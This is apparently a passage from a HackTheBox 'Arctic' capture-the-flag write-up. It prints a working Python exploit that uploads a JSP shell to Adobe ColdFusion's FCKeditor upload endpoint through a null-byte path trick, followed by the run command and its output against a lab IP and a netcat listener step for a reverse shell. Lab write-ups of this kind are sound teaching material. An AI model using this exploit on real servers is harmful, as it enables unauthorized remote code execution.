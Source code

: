 ```python
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

Now, run the exploit.

```
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
````

Once, the exploit is sent, it tells us the location where its stored.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Artic]
└─$ python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

I started a netcat listener.

```
nc lvnp 4444
```
